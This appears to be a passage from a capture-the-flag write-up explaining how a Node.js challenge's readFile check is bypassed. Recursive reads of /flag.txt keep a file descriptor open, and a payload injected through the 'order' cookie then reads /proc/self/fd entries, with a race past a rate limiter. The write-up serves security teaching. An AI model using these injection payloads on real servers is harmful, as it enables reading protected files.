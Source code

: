 > That means, that if a process on the machine is accessing `/flag.txt` at the moment, it has a file descriptor pointing to it. We can then read the flag from the path: `/proc/{PID}/fd/{FD}`

### What process is reading `/flag.txt`?

Notice in `readFile`:
```javascript
readFile: (path)=>{
	path = new String(path).toString()
	if(fs.statSync(path).size == 0)
		return null
	let r = fs.readFileSync(path)
	if(!path.includes('flag'))
		return r
	return null
}
```

The path we give to the `readFile` function is read from anyway, **even if the path contains `flag`**. That means, that even if we can't read the contents of `/flag.txt` directly, we can still invoke the creation of a file descriptor by running `readFile('/flag.txt')`.  
We won't be able to get the output, but it would create a file descriptor pointing to `/flag.txt`, in the `nodejs` process.  

### The Solution
So the plan is:
1. Start a thread that constently tries to read the flag. It won't succeed, but it will be creating those precious file descriptors in `/proc/self/fd`.
2. Imediatly start another thread, that tries to read all the files in `/proc/self/fd`.
3. Continue doing step 1 and 2 until it works.

The `order` cookie in the file descriptor creation thread:
```javascript
a = _=> { return readFile`/flag.txt` + readFile`/flag.txt` + readFile`/flag.txt` + readFile`/flag.txt` + readFile`/flag.txt` + readFile`/flag.txt` + a`` }, a``
````
It creates a function named `a`, which uses recursion to keep trying to read `/flag.txt`

The `order` cookie in the file descriptor reader thread:
```javascript
readFile`/proc/self/fd/0`, readFile`/proc/self/fd/1`, readFile`/proc/self/fd/2`, readFile`/proc/self/fd/3`, readFile`/proc/self/fd/4`, readFile`/proc/self/fd/5`, readFile`/proc/self/fd/6`, readFile`/proc/self/fd/7`, readFile`/proc/self/fd/8`, readFile`/proc/self/fd/9`, readFile`/proc/self/fd/10`, readFile`/proc/self/fd/11`, readFile`/proc/self/fd/12`, readFile`/proc/self/fd/13`, readFile`/proc/self/fd/14`, readFile`/proc/self/fd/15`, readFile`/proc/self/fd/16`, readFile`/proc/self/fd/17`, readFile`/proc/self/fd/18`, readFile`/proc/self/fd/19`, readFile`/proc/self/fd/20`, readFile`/proc/self/fd/21`, readFile`/proc/self/fd/22`, readFile`/proc/self/fd/23`, readFile`/proc/self/fd/24`, readFile`/proc/self/fd/25`, readFile`/proc/self/fd/26`, readFile`/proc/self/fd/27`, readFile`/proc/self/fd/28`
```
And yes, there is probably a better way to implement the file descriptor reader using loops, but it works.

Because the threads start immediatly, there's sometimes a race condition in the rate limmiter validation, that allows us to pass it and run two instances of `checkout` at the same time.  
Either that, or something about my implementation sometimes causes the file descriptor to never close, which works as well.

Solution script: [solve.py](solve.py)

